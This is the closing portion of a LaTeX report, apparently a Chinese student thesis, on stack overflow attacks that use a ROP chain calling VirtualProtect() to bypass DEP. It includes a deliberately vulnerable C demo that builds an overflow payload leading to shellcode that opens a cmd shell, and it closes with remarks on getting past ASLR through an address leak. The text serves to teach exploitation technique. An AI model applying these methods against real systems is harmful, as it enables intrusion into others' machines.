		
\includegraphics[width=0.22\linewidth]{images/rop_chain_s9.png}
		\label{fig:rop_chain_s9}}
	\subfigure[]{
		
\includegraphics[width=0.22\linewidth]{images/rop_chain_s10.png}
		\label{fig:rop_chain_s10}}
	\subfigure[]{
		
\includegraphics[width=0.22\linewidth]{images/rop_chain_s11.png}
		\label{fig:rop_chain_s11}}
	\subfigure[]{
		
\includegraphics[width=0.22\linewidth]{images/rop_chain_s12.png}
		\label{fig:rop_chain_s12}}
	\caption{ROP链执行过程分析-1} % caption for entire figure
\end{figure}

\begin{figure}[H]
	\centering
	\subfigure[]{
		
\includegraphics[width=0.22\linewidth]{images/rop_chain_s13.png}
		\label{fig:rop_chain_s13}}
	\subfigure[]{
		
\includegraphics[width=0.22\linewidth]{images/rop_chain_s14.png}
		\label{fig:rop_chain_s14}}
	\subfigure[]{
		
\includegraphics[width=0.22\linewidth]{images/rop_chain_s15.png}
		\label{fig:rop_chain_s15}}
	\subfigure[]{
		
\includegraphics[width=0.22\linewidth]{images/rop_chain_s16.png}
		\label{fig:rop_chain_s16}}
	\subfigure[]{
		
\includegraphics[width=0.22\linewidth]{images/rop_chain_s17.png}
		\label{fig:rop_chain_s17}}
	\subfigure[]{
		
\includegraphics[width=0.22\linewidth]{images/rop_chain_s18.png}
		\label{fig:rop_chain_s18}}
	\subfigure[]{
		
\includegraphics[width=0.22\linewidth]{images/rop_chain_s19.png}
		\label{fig:rop_chain_s19}}
	\subfigure[]{
		
\includegraphics[width=0.22\linewidth]{images/rop_chain_s20.png}
		\label{fig:rop_chain_s20}}
	\subfigure[]{
		
\includegraphics[width=0.22\linewidth]{images/rop_chain_s21.png}
		\label{fig:rop_chain_s21}}
	\subfigure[]{
		
\includegraphics[width=0.22\linewidth]{images/rop_chain_s22.png}
		\label{fig:rop_chain_s22}}
	\subfigure[]{
		
\includegraphics[width=0.22\linewidth]{images/rop_chain_s23.png}
		\label{fig:rop_chain_s23}}
	\subfigure[]{
		
\includegraphics[width=0.22\linewidth]{images/rop_chain_s24.png}
		\label{fig:rop_chain_s24}}
	\caption{ROP链执行过程分析-2} % caption for entire figure
\end{figure}

\chapter{测试及分析}
\section{栈内存布局}
栈上的缓冲区被溢出后,内存布局如图\ref{fig:stack2}所示。返回地址被覆盖成ROP链的第一个DWORD,然后RET指令就将EIP指向ROP链的第一个gadget。ROP链上的gadgets执行结束后程序流将被转移到shellcode。

\begin{figure}[htbp]
	\centering
\includegraphics[height=7cm]{images/stack2.png}
	\caption{栈上的缓冲区被溢出后的内存布局}
	\label{fig:stack2}
\end{figure}

\section{调试分析}
编写一个C程序用于演示栈溢出攻击,源代码如下:

\begin{lstlisting}[language=C++, basicstyle=\ttfamily\tiny, numbers=left, numberstyle=\tiny, keywordstyle=\color{blue!70}, commentstyle=\color{red!50!green!50!blue!50}, frame=shadowbox, rulesepcolor=\color{red!20!green!20!blue!20}]
// Release版本会把strcpy优化掉(直接嵌入strcpy的代码), 所以需要自己写一个
char* vulnerable_strcpy(char *dst, const char *src)
{
	char *_dst = dst;
	while ((*dst++ = *src++) != '\0');
	return _dst;
}

int main()
{
	char buf[128];
	memset(buf, 0xaa, sizeof(buf)); // mark buf, for debugging
	printf("&buf = %.8x\n", (int)buf);

	memset(payload, 'A', sizeof(buf) + 4); // payload一直覆盖到返回地址前
	memcpy(payload + sizeof(buf) + 4, // rop_chain从返回地址处开始
		rop_chain,
		rop_chain_len);
	vulnerable_strcpy(payload + sizeof(buf) + 4 + rop_chain_len, // rop_chain后跟shellcode
		shellcode);
	memcpy(buf, payload, payload_len); // overflow
}
\end{lstlisting}

通过memcpy()向buf[]拷贝payload将发生栈溢出,最后main函数执行``RET''时就会跳转到ROP链的第一个gadget,如图\ref{fig:debug1}所示。当执行到那个跳转到VirtualProtect()的``JMP EAX''时,栈帧如图\ref{fig:debug2}所示,与之前的分析结果一致。继续单步,成功跳入VirtualProtect(),如图\ref{fig:debug3}所示。当ROP链执行结束后跳转到shellcode,如图\ref{fig:debug4}所示。shellcode最终执行到``CALL EAX'',准备system(``cmd'')函数调用,如图\ref{fig:debug5}。最后system(``cmd'')成功打开一个shell,如图\ref{fig:debug6}所示。

\begin{figure}
	\centering
	\subfigure[]{
		
\includegraphics[width=0.4\linewidth]{images/debug1.png}
		\label{fig:debug1}}
	\subfigure[]{
		
\includegraphics[width=0.4\linewidth]{images/debug2.png}
		\label{fig:debug2}}
	\subfigure[]{
		
\includegraphics[width=0.4\linewidth]{images/debug3.png}
		\label{fig:debug3}}
	\subfigure[]{
		
\includegraphics[width=0.4\linewidth]{images/debug4.png}
		\label{fig:debug4}}
	\subfigure[]{
		
\includegraphics[width=0.4\linewidth]{images/debug5.png}
		\label{fig:debug5}}
	\subfigure[]{
		
\includegraphics[width=0.4\linewidth]{images/debug6.png}
		\label{fig:debug6}}
	\caption{调试分析-1}
\end{figure}

\chapter{总结及展望}
本文叙述了缓冲区溢出攻击,特别是栈溢出攻击的基本原理及利用方法,演示了通过ROP技术调用VirtualProtect()来修改栈的页面属性,从而突破DEP获得shellcode执行权的整个过程,但该方法无法突破ASLR。笔者以为,DEP和ASLR形成了一个闭环:如果攻击者试图动态地获取系统库的加载基地址从而动态地生成ROP链,就必须先执行堆栈上的代码来实现模块加载地址的查找——但这会被DEP阻断。所以要突破DEP和ASLR就需要另辟蹊径。一种可能的思路是,攻击者通过别的方法(或者是别的漏洞)泄漏出构造ROP链所需的动态库加载基地址,然后重新编码shellcode进行溢出攻击。

\end{document}
